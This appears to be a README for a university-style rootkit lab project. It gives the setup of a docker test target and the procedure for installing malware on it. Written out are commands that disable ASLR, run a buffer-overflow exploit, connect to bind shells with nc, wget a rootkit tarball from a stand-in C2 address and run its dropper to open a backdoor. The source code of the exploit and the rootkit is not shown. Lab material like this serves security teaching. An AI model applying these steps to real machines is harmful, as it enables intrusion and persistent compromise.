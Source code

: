 # Rootkit Project

## Project Layout

`rootkit/` - contains source code for malicious rootkit library 
`dropper/` - contains vulnerable target program and payload delivery code
`target/` - contains code for testing/target environment (will eventually be run on target server)

## Purpose

This readme details the process for setting up your test environment, and installing your malware using an exploit script.

In order to do install, you will run an exploit script which will exploit a buffer overflow in the target process.
This will open up a temporary bind shell into the process which you can use to install your rootkit onto the system.

This will give you a more permenant backdoor, and also allow you to use all of your features in the coming weeks, as you
add more.

## Test Target Environment Setup

Perform all these steps in the vm in the **target/ directory**

1. install docker

```sh
curl -fsSL https://get.docker.com -o get-docker.sh
sh get-docker.sh
```

2. disable ssh

```sh
sudo systemctl stop sshd
```

3. disable aslr

```sh
sudo echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
4. install and enable apache

```sh
sudo apt install apache2
```

5. Install `pip` and `pwntools`

```sh
sudo apt-get install pip3
pip3 install pwn
```

6. Install `docker-compose`.

```sh
sudo apt install docker-compose
```

7. run `sudo docker compose up -d`

## Malware Installation Process

Preform these steps in the **dropper/ directory** 

### Set up C2

1. create rootkit tarball
> make sure you compile your rootkit and move the rootkit.so file to the 

```sh
tar -czf rootkit.tz drop.sh rootkit.so
```
 
2. move the rootkit tarball to /var/www/html ("C2 server")

```sh
cp rootkit.tz /var/www/html
```

### Run the exploit 

1. run your exploit, it will hang, let it do so

```sh
python3 exploit.py
```

2. in a separate terminal connect to localhost:4567 via `nc` (stage 1 bind shell)
3. download and unzip your tarball. To find your local IP address, run `ifconfig` and copy and paste the first IP address.

```sh
wget http://<your_ip_address>/rootkit.tz
tar -xzf rootkit.tz
```

4. install your malware

```sh
chmod +x drop.sh 
./drop.sh (installs your malware)
```

5. ssh into trigger address
```sh
ssh joebruin@localhost
```

6. open bind shell (nc localhost 1234)

```sh
nc localhost 1234
```

7. Hack Away - your malware is running in the docker container
